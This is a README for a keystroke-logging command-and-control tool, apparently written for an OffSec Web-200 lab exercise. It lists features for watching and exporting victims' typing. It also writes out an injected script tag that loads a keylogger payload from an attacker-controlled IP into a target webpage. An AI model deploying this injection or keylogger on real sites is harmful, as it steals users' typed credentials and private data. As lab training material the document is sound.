

# 🎯 KeyCatcher – Terminal-Based Keystroke Exfiltration C2


**KeyCatcher** is a powerful terminal-based C2 server built for the *"extra mile"* exercise in OffSec’s **Web-200 (OSWA)** course. It captures keystrokes from compromised webpages and visualizes them in a clean, real-time Terminal UI.


## ✨ Features

- 🚀 **Real-Time Keystroke Capture** : Watch victims type live with zero delay.

- 📊 **Beautiful Terminal UI**  : Built with `tview`, logs are neatly organized by victim IP.

- 💾 **Persistent Storage**  : All keystrokes are stored in `keystrokes.db` (SQLite).

- 📦 **Self-Hosted Payload** : Automatically serves `keylogger.js` for easy deployment.

- 🧠 **Smart Log Parsing**  :  Recognizes and labels special keys like `[BACKSPACE]`, `[ENTER]`, etc.

- ⬇️ **One-Click Data Export**  : Export logs per victim using a single hotkey.

- 💻 **Cross-Platform Support**  : Works on **Linux**, **macOS**, and **Windows**.


## 🛠 How It Works

### 🧩 1. JavaScript Payload (`keylogger.js`)
- Injected into the target page.
- Captures keystrokes using `keydown` events.
- Sends each keypress to the C2 server via `POST /log`.

### 🧠 2. Go C2 Server (`main.go`)
- **HTTP Listener** – Serves the payload and receives data.
- **SQLite Logger** – Stores each keystroke with IP data.
- **TUI Renderer** – Uses `tview` to display victim data and keystrokes in real-time.


## 📋 Requirements

- **Go** version `1.18+` installed.


## 🚀 Installation & Setup

```bash
# 1. Clone the repository
git clone https://github.com/your-username/keycatcher.git

# 2. Change directory
cd keycatcher

# 3. Install dependencies
go mod tidy

# 4. Configure the payload:
Open the keylogger.js file and modify the attackerServer variable to point to the IP address and port of the machine where you will run the KeyCatcher server.
```

# ▶️ Usage

```bash
# 1. Start the KeyCatcher C2 Server:
  go run main.go
# 2. Deploy the Payload:Inject the following script tag into the target webpage. The victim's browser will fetch and execute the payload from your C2 server.
  <script src="http://192.168.1.110:80/keylogger.js"></script>
# 3. Monitor the TUI:
    a. As victims visit the infected page and start typing, their IP addresses will appear in the "Victims" list on the left.
    b. Use the Up/Down arrow keys to select a victim.
    c. The "Keystrokes" pane on the right will display their reconstructed typing in real-time.
    d. Press Ctrl+E to export all captured logs to exfiltrated_data.log.
    e. Press Ctrl+C to quit the application.
```

⚠️ Disclaimer

This tool is intended for educational purposes and for use in authorized security testing scenarios only, such as the OffSec labs. Unauthorized use of this tool to capture keystrokes from individuals without their explicit consent is illegal and unethical. The author is not responsible for any misuse or damage caused by this program.

    

    
